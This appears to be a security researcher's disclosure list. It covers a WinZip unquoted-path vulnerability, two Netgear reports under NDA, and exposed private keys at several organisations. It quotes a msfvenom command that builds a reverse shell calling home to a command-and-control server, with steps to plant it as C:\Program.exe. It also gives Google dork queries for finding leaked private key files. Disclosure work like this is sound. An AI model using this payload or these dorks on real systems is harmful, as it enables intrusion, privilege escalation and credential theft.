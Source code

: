 ## Vulnerability Disclosures:
### Unquoted Path Vulnerability: 3 Reported
1. Corel (Winzip): [https://github.com/ciwen3/Public/blob/master/vuln-report/winzip-Submission.pdf](https://github.com/ciwen3/Public/blob/master/Cyber%20Security/vuln-report/winzip-Submission.pdf)
- Credited: [https://support.corel.com/hc/en-us/articles/217086227](https://web.archive.org/web/20210218194953/https://support.corel.com/hc/en-us/articles/217086227)
- ```This Vulnerability would not compromise the WinZip application. It would however compromise WinZips customer devices. This attack would mostly be used for maintaining persistence or elevating privilege's on an already compromised machine. This is a security issue because no one wants unintended programs to be run by the system. For this vulnerability to work it would require a malicious application named program.exe to be stored in the C:\ folder. Once there, the malicious application could do anything you programmed it to. The easiest way to illustrate this would be a terminal connection to a remote server giving someone else control of the system. For this example I can use MSFVenom to easily make a reverse shell that calls home to my AWS Command and Control server. "msfvenom p windows/shell_reverse_tcp LHOST=[AWS-IP] LPORT=4444 -f exe > Program.exe" Then I can place this executable in C:\ folder. When the WinZip calls an unquoted path that begins with C:\Program Files… it will run the malicious program.exe application and give me the full permissions being used by the WinZip application.```
2. Netgear PSV-2020-0590: Non-Disclosure Agreement 
3. Netgear PSV-2020-0593: Non-Disclosure Agreement 

### Sensitive Data Leak Disclosures: Multiple Reported (lost track of the actual count)
usually found using google dorks and related to .pem .key or api keys

1. Weathernews Inc (wni.co.jp): May 13, 2021 - Sensitive data exposure, found private keys on several publicly accessable (no login required and google searchable) servers.
2. [Redacted] Resorts: June 12, 2024 - Sensitive data exposure, found private key
3. [Redacted] Customs: June 12, 2024 - Sensitive data exposure, found private keys

##### Examples:
- intitle:"index of" "*.cert.pem" | "*.key.pem"
- "BEGIN * PRIVATE KEY" ext:pem | ext:key | ext:txt
